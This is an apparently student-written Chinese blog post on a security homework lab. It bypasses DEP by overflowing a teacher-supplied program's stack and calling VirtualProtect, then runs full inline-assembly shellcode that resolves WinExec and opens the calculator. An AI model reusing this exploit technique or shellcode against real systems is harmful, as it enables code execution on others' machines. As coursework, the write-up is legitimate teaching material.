

# 导语
这是我的软件安全作业，希望能同学们启发。
<!-- more-->
具体内容是设计一个shellcode绕过DEP保护然后让他打开计算器。

# DEP
数据执行保护 (DEP) 是一套软硬件技术，能够在内存上执行额外检查以防止在不可运行的内存区域上执行代码。 在 Microsoft Windows XP Service Pack 2、 Microsoft Windows Server 2003 Service Pack 1 、 Microsoft Windows XP Tablet PC Edition 2005 、 Microsoft Windows Vista 和 windows 7 中，由硬件和软件一起强制实施 DEP。DEP 有两种模式，如果CPU 支 持内存页NX 属性， 就是硬件支持的DEP。只有当处理器/系统支持NX/XD位（禁止执行）时，windows才能拥有硬件DEP，否则只能支持软件 DEP，相当于只有SafeSEH保护。
简单来说就是会检查你的eip指向的内存段属性，如果不是代码段就给你中断了。

DEP的绕过思路一般有以下三个
1. 关闭进程DEP
2. 将shellcode存储位置设置为可执行
3. 将shellcode写入可执行的位置

这里我们就采取的是思路2，利用VirtualProtect函数来修改shellcode所在内存的属性。

# ROP
说到绕过DEP，首先显然要说说ROP（return-oriented programming），ROP基本原理如下：
小部件(gadget)：内存中一个个以ret为结尾的指令序列（非常形象），我们像捡破烂一样收集它们。
ret指令：ret指令实际上就是将eip赋为esp指的值，再将esp增加两个字节，也就是将EIP设置为esp指向的值，也就是跳转到栈顶的值所指向的地址。
在整个过程中，eip都在我们收集的小部件上，而这些小部件都在代码段，所以DEP不会对他进行什么干涉，也就能事先我们要的功能了。

# VirtualProtect
VirtualProtect，是对应 Win32 函数的逻辑包装函数，它会在呼叫处理程序的虚拟位置空间里，变更认可页面区域上的保护。
具体接受的参数如下：
BOOL WINAPI VirtualProrect(
__in    LPVOID lpAddress ,      //指向需要修改保护属性的页的基地址。
__in    SIZE_T dwSize ,         //需改变保护属性的内存大小
__in    DWORD flNewProtect ,    //内存保护属性常量
__out  PDWORD lpflOldProtect    //原本内存保护属性的保存地址
);

flNewProtect可以设置为一下属性：
0x10 PAGE_EXECUTE：区域包含可被系统执行的代码。试图读写该区域的操作将被拒绝。
0x20 PAGE_EXECUTE_READ：区域包含可执行代码，应用程序可以读该区域。
0x40 PAGE_EXECUTE_READWRITE：区域包含可执行代码，应用程序可以读写该区域。
0x80 PAGE_EXECUTE_WRITECOPY： 启用对文件映射对象的映射视图的只读或写时复制访问。
0x01 PAGE_NOACCESS：任何访问该区域的操作将被拒绝。
0x02 PAGE_READONLY：该区域为只读。如果应用程序试图访问区域中的页的时候，将会被拒绝访问。
0x04 PAGE_READWRITE：区域可被应用程序读写。
详细内容请参考[memory protection constants](https://docs.microsoft.com/zh-cn/windows/win32/memory/memory-protection-constants)

利用VirtualProtect函数，我们就可以改变栈内内存的属性，使其变为可执行。

# 实际操作
打开老师发给我的程序，看看它是做什么的

他是导入一个文本文件然后将他的内容显示到文本框中，并且经过导入图片测试发现他并不能二进制打开文件并回显。
对这个程序栈溢出攻击，构造一个定位的payload

用windbg previewer来查看（因为他会在出错的地方中断但不处理，相当于自动断点，比较好使），这里还要记下esp的内容，在后面有用。

发现eip被覆盖为了0x68676665，也就是ascii的efgh，也就定位到了调用函数的返回地址，同时也可以查看堆栈的内存情况

下一步我们要做的就是覆盖返回地址为VirtualProtect函数的地址，使用ida查看引入函数表，找到VirtualProtect函数

值得注意的是，这里存放的是指向VirtualProtect函数的指针的地址，因此我们用OD打开这个程序，到对应地址找到VirtualProtect真正的地址

去那里验证一下是不是VirtualProtect,顺便加个断点，以便于之后的调试。

然后就是存放参数，在调用函数时候，函数地址后面会有两个DWORD被系统自己压栈，他们分别存放的是call之后下一条语句的地址和当前的ebp，这两个值没什么关系，因为改好了内存属性之后我们编写的shellcode会有对应的堆栈操作来使堆栈可以使用。而且call下一条语句由于VirtualProtect有ret指令也会直接将eip变为esp所指向的位置。
然后我们挨个往下放好参数即可，其中修改的内存基地址是在之前看的esp的内容。

利用之前的断点，可以看到call的参数（在右下角），这里我随便找了个之前用aaaa覆盖的地址来存放修改前的内存属性。

然后我们在网上找个打开计算器的shellcode（当然自己写更好）
```
_asm
    {
        //寻找kernel32.dll的基地址
        xor ecx, ecx;
        mov eax, dword ptr fs : [ecx + 30h]; //EAX = PEB
        mov eax, dword ptr[eax + 0Ch]; //EAX = PEB->Ldr
        mov esi, dword ptr[eax + 14h]; //ESI = PEB->Ldr.InMemOrder
        lods dword ptr[esi]; //EAX = Second module
        xchg eax, esi; //EAX = ESI, ESI = EAX
        lods dword ptr[esi]; //EAX = Third(kernel32)
        mov ebx, dword ptr[eax + 10h]; //EBX = Base address
        //查找kernel32.dll的导出表
        mov edx, dword ptr[ebx + 3Ch]; //EDX = DOS->e_lfanew
        add edx, ebx; //EDX = PE Header
        mov edx, dword ptr[edx + 78h]; //EDX = Offset export table
        add edx, ebx; //EDX = Export table
        mov esi, dword ptr[edx + 20h]; //ESI = Offset names table
        add esi, ebx; //ESI = Names table
        xor ecx, ecx; //EXC = 0
        //循环查找GetProcAddress函数
    Get_Function:
        inc ecx; //Increment the ordinal
        lods dword ptr[esi]; //Get name offset
        add eax, ebx; //Get function name
        cmp dword ptr[eax], 50746547h; //GetProcAddress
        jne Get_Function; //Get_Function
        cmp dword ptr[eax + 4], 41636F72h; //rocAddress
        jne Get_Function; //Get_Function
        cmp dword ptr[eax + 8], 65726464h; //ddress
        jne Get_Function; //Get_Function
        //寻找GetProcAddress 函数
        mov esi, dword ptr[edx + 24h]; //ESI = Offset ordinals
        add esi, ebx; //ESI = Ordinals table
        mov cx, word ptr[esi + ecx * 2]; //CX = Number of function
        dec ecx
            mov esi, dword ptr[edx + 1Ch]; //ESI = Offset address table
        add esi, ebx; //ESI = Address table
        mov edx, dword ptr[esi + ecx * 4]; //EDX = Pointer(offset)
        add edx, ebx; //EDX = GetProcAddress
        push ebx; //PUSH kernel32.Base address
        push edx; //PUSH kernel32.GetProcAddress
        //寻找WinExec函数地址
        xor ecx, ecx; //ECX = 0
        push ecx; //PUSH ECX
        mov ecx, 61636578h; //string acex
        push ecx; //PUSH ECX
        sub dword ptr[esp + 3], 61h; //Remove "a" ESP = &0012FE18--->string xec
        push 456E6957h; //string EniW
        push esp; //PUSH ESP WinExec
        push ebx; //PUSH EBX kernel32.Base address
        call edx; //CALL GetProcAddress
        add esp, 8; //ESP + 8
        pop ecx; //ECX = 0
        push eax; //PUSH EAX-- > kernel32.WinExec Addresss
        //赋值命令行字符串
        xor ecx, ecx; //ECX = 0
        push ecx; //PUSH ECX
        push 0x6578652E;
        push 0x636C6163; //calc.exe
        xor ebx, ebx; //EBX = 0
        mov ebx, esp; //EBX = "calc.exe"
        xor ecx, ecx; //ECX = 0
        inc ecx; //EXC = 1
        push ecx; //PUSH ECX = 1
        push ebx; //PUSH EBX = "calc.exe"
        call eax; //CALL WinExec
        //堆栈平衡
        add esp, 10h; //ESP + 50h
        pop edx; //EDX = kernel32.GetProcAddress
        pop ebx; //EBX = kernel32.Base Address
        //退出程序
        xor ecx, ecx; //ECX = 0
        mov ecx, 61737365h; //string asse
        push ecx; //PUSH ECX
        sub dword ptr[esp + 3], 61h; //Remove "a"
        push 636F7250h; //string; Proc
        push 74697845h; //string; Exit
        push esp; //string "ExitProcess"
        push ebx; //kernel32.dll base address
        call edx; //GetProcAddress(Exec)
        xor ecx, ecx; //ECX = 0
        push ecx; //Return code = 0
        call eax; //ExitProcess
    }

```
导出机器码，直接用winhex贴在被修改了内存属性的地址之后即可。
然后使用程序打开shellcode，就可以发现自动的弹出了计算器。

# 后记
如果想要自动生成rop的话推荐[mona插件](https://github.com/corelan/mona)
冲冲冲！


参考：
https://www.cnblogs.com/Wrong-Side/p/4547754.html
https://www.cnblogs.com/lei9019/archive/2012/02/20/2359020.html
https://www.cnblogs.com/bCPTdtPtp/p/12382726.html